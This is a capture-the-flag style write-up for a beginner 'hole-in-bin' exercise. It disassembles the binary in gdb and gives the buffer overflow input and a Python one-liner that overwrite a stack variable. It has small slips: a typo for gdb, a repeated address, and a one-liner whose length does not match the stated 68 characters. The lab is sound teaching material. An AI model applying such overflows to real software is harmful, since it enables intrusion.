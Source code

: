 ## Exercises

-   ## EX00

### Objective

This level is completed when you see the “you have changed the 'modified' variable” message.

### Binary functionality

After running the binary `./bin` it doesn't do anything and seems to wait for some input. After pressing enter it prints "Try again?".

### Process and solution

![img](https://i.imgur.com/8VtqxpD.png)

We can see that `test   eax,eax` we test if someting is zero. Next instruction `je` jumps to "Try again?" message (0x8048500). If it's not 0 then it continues and prints "you have changed the 'modified' variable" (0x8048500).

Since we can see that the value that we are checking gets set to zero and not changed (`mov    DWORD PTR [esp+0x5c],0x0`) we need to create a buffer overflow to overwrite the 0 to something else.

Process:

```sh
# Start debugging
gbp bin
disassemble main
# set break points for gets function and one instruction after that
break *0x0804840c
break *0x08048411
# set hooks to see more info at break points
define hook-stop
info registers
x/24wx $esp
x/2i $eip
end
r
# we can now see the registers, stack and next 2 instructions
c
# Enter A characters to see the changes in the stack
# All the 41 characres on the stack are the A's we entered
# Count how many characters we need to reach the variable we need to overwrite. It this case its 68 characters
# Examine value of address we need to modify
x/wx $esp+0x5c
# We can see its still 0
# run program again
r
c
AAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEFFFF
si
x/wx $esp+0x5c
# now we can see the variable is not 0 anymore
c
# and now we see the "you have changed the 'modified' variable" message

# without gdb
echo "AAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEFFFF" | ./bin
# or simple python oneliner
user@hole-in-bin:/opt/hole-in-bin/ex00$ python -c 'print "A"*(4+16*3+14)' | ./bin

> you have changed the 'modified' variable
```